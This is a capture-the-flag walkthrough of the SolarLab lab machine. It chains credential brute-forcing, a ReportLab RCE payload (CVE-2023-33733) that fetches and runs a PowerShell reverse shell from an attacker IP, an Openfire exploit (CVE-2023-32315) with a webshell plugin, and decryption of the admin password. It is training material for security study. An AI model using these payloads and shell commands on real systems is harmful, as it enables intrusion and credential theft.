---------
# Introduction
SolarLab begins with an SMB share containing a spreadsheet of usernames and passwords. By exploiting a website that displays distinct error messages for incorrect usernames versus wrong passwords, combined with analyzing the username format, I was able to identify valid credentials.

 Once logged in, I leveraged CVE-2023-33733 in the reportlab PDF generation process to achieve Remote Code Execution (RCE) and obtain a shell.

For lateral movement,  to escalate privileges to the openfire user,  method takes advantage of CVE-2023-32315 in OpenFire to create a user and upload a malicious plugin for RCE.
 With this access, I decrypted a password from the OpenFire configuration, which  served as the administrator's password. 

 <!-- more -->
----------------------------------


| INFO|  |
|----|----|
|CTF NAME|**SolarLab**|
|Operating System| **Windows**|
|Diffculty|   **Medium**  |
|Retire date| 21 Sep 2024
|Points |**35**|
-------------------------------
# INFORMATION GATHERING

Initial nmap scan with default scripts
```bash
sudo nmap -sV  -oN nmap/solarlab_full 10.10.11.16 -p-

Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-16 14:54 EDT
Nmap scan report for 10.10.11.16
Host is up (0.094s latency).
Not shown: 65529 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6791/tcp open  hnm
7680/tcp open  pando-pub

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-17T18:56:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.15 seconds
```
Fingerprinting OS using smbmap would indicate the machine is a windows server 2019.

```bash
smbmap -H solarlab.htb -v
```

# ENUMERATION

Enumerating the discovered SMB service, there was one share with a document file:
```bash
smb -H 10.10.11.16 -s Documents -u guest -r
[+]                                                   
        Documents                                               READ ONLY
        fr--r--r--            12793 Fri Nov 17 07:34:54 2023    details-file.xlsx
-----------------------------------------------------------------------------------
```
download the  file
```
smbmap  -H 10.10.11.16 -s Documents -u guest -p "" -r -A  details-file.xlsx  
```

 it was clear that these were some login credentials related to a domain

Nothing else was discovered on SMB. its time to enumerate port 80.

## Enumerating  Port 80
The default root appeared to be a static site with nothing interesting, so I started looking at other open ports and discovered a subdomain running on port 6791: 
`http://report.solarlab.htb:6971`

I initially started by identifying which users from the spreadsheet existed. Testing h usernames like "blake.byte" or "blake byte" produced a different error messages from "claudiaS" or "alexanderK", confirming that Alex and Claudia exist but the passwords were incorrect.
### bruteforcing with intruder
I attempted bruteforcing in Clusterbomb attack mode, trying different combinations from the spreadsheet file. 

No valid credentials, I returned to the document and observed a pattern in the naming convention. Two users had shortened names, e.g., ClaudiaS and AlexanderK. The third user, Blake Byte, could follow the same pattern.
Trying the same brute attack with "blakeB" as the login username worked:
```
    * PASS: ThisCanB3typedeasily1@
    * USER: blakeb
```
## Enumerating Reporthub
This site offers some functionality, and the "Training Request" section leads to a form. 



After clicking the "Generate PDF" button, I was redirected to a PDF document. The image gets reflected in the PDF, indicating a possible XSS vulnerability. 

I tried simple payloads to test for injection, uploading script files with .html and .svg formats, but no luck. I then downloaded the PDF document and ran exiftool on it:
```bash
exiftool output.pdf 
ExifTool Version Number         : 12.40
File Name                       : output.pdf
Directory                       : .
File Size                       : 202 KiB
File Modification Date/Time     : 2024:09:12 15:54:21-04:00
File Access Date/Time           : 2024:09:12 15:54:22-04:00
File Inode Change Date/Time     : 2024:09:12 15:54:21-04:00
File Permissions                : -rwxrwx---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Author                          : (anonymous)
Create Date                     : 2024:05:17 22:53:02-02:00
Creator                         : (unspecified)
Modify Date                     : 2024:05:17 22:53:02-02:00
Producer                        : ReportLab PDF Library - www.reportlab.com
Subject                         : (unspecified)
Title                           : (anonymous)
Trapped                         : False
Page Mode                       : UseNone
Page Count                      : 1
```
The library used to make it is ReportLab.

Searching for “reportlab exploit” turns up information about CVE-2023-33733, a remote code execution vulnerability through Injection in ReportLab:


## Exploiting ReportLab

Navigating to the exploit PoC on GitHub, the exploit code was:
```html
<para><font color="[[[getattr(pow, Word('__globals__'))
['os'].system('ping #attacker-ip') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1,
 'startswith': lambda self,
  x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
```


Attempting to send the exploit through the form field
throws an error in your face indicating that the character limit for the form was exceeded.

one way to solve this would be to try and shorten the length of every variable, or to try different parameters
after intercepting with burp and trying different areas, 
placing the exploit under `training_request` Drop list option bypasses this restriction.


## Blake shell
after confirming the connection it's time to get a shell!
this part involves these steps:
- setup python server hosting the shell:
```bash
python3 http.server 80   #revshell.ps1 is in the same directory
```

- set up a listening session on a separate tab:
```bash
stty raw -echo; (stty size; cat) | nc -lvnp PORT
```

- This Piece of code is used to download and execute powershell script in memory, were going to add it to the Exploit Code
```powershell
powershell IEX(IWR http://10.10.16.14/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.16.63 9001
```
#### Final Exploit:
```html
<para><font color="[[[getattr(pow, Word('__globals__'))
['os'].system('powershell IEX(IWR http://10.10.16.14/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.16.63 9001') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1,
 'startswith': lambda self,
  x: 1 == 0,
   '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated',
    self.mutated - 1) },
     '__hash__': lambda self: hash(str(self)), },
      ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
```

sending in the repaeter tab, i got a 503 from the web server
 and a powershell session as the blake user.
 
## Initial Foothold
the user flag was found under `C:\Users\blake\Desktop\flag.txt`

checking `Users` folder, i found `openfire`, `Administrator`, and `blake`(me).


getting winpeas
```
wget "http://10.10.16.97/winPEASany.exe" -OutFile 
"C:\Users\blake\Desktop\winpeas.exe"
```
Found openfire service Running running a web protal locally on port 9090.

```
Openfire(Openfire)["C:\Program Files\Openfire\bin\openfire-service.exe"] - Autoload
```

## Lateral Movement
Openfire is a real-time collaboration (RTC) server licensed under the Open Source Apache License.
I tried to get into `C:\Program Files\Openfire\` to look for scripts/DBs but it was resricted to openfire only.
### Openfire Web Server
port forwarding with chisel so i can interact with local server:
```
.\chisel.exe client 10.10.16.14:4321 R:9090:127.0.0.1:9090   #on-victim
chisel server --socks5 --reverse -p 4321                     #on-attacker
```

Navigating to localhost:9090

### Exploring CVE-2023-32315
trying default credentials did not work.
searching for "openfire exploit" reveals Openfire  is vulnerable to a Path traversal where attackers can abuse the vulneralbility in order to obtain CSRF tokens and cookies for Administrative accounts to generate an account that they can log onto.


Read more:https://vsociety.medium.com/cve-2023-32315-path-traversal-in-openfire-leads-to-rce-10f988e06236
### Shell as Openfire
searching for "openfire exploit" 
 https://github.com/miko550/CVE-2023-32315#step
This exploit aims to generate a new user with `CVE-2023-32315` and perform RCE through a bundled Malicious Plugin. 
  steps to perform:
1. Run exploit
3. login with newly added user 
5. go to tab plugin > upload plugin `openfire-management-tool-plugin.jar`
6. go to tab server > server settings > Management tool  
8. Access webshell with password "123"


login with the newly added user:

follow the other steps to upload the plugin
 go to tab plugin > upload plugin `openfire-management-tool-plugin.jar`


go to tab server > server settings > Management tool  
Access webshell with password "123"

get powershell as openfire with the same technique:



## SQL Analysis
With the newly obtained privilege I can now access `\Openfire\`
Found scripts related to DB in `/openfire/embedded-db`, discovered `openfire.script`. Searching for `CREATE` and `INSERT` queries:
I found some queries related to users.
the query Underneath shows the schema for Creating the `OFUSER` table, which is responsible for holding user credentials. 
```sql
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),
ITERATIONS INTEGER,

PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),

NAME VARCHAR(100)
,EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))
```
Some queries for adding users were also found. The query for creating an admin account was of particular interest to me.

format:
name,
`key`,
serverkey,
 salt,
`plaintext password`,
 `encrypted password`
 ....The rest. Looks like encryption was used instead of hashing.
 Unlike hashing, Eencryption does not require a function or algorithm, google up ways to decrypt openfire passwords.

 checked both github repos to discover key name,
Column  `passwordkey` in the  `OFPROPERTY` table was found. 
```
type .\openfire.script | findstr "OFPROPERTY"
```



So now i can leverage my findings to get the administrator's password
```
*Encrypted-pass:
becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac
62d4e89b2856b0289b365f3069802e59d442
*Key:
hGXiFzsKaAeYLjn  
```
I cloned the tool from the  second repo and ran:
```java
java -<encrypted-password> <key>	
```


We found it!:
```
ThisPasswordShouldDo!@ 
```

## SYSTEM SHELL
let's now login to administrator with the PW:
```bash
impacket-smbexec administrator:'<pw>'@<victim-ip
```

root flag was found under
 `Administrator\Desktop\root.txt`.

 That's all, Thank you :)
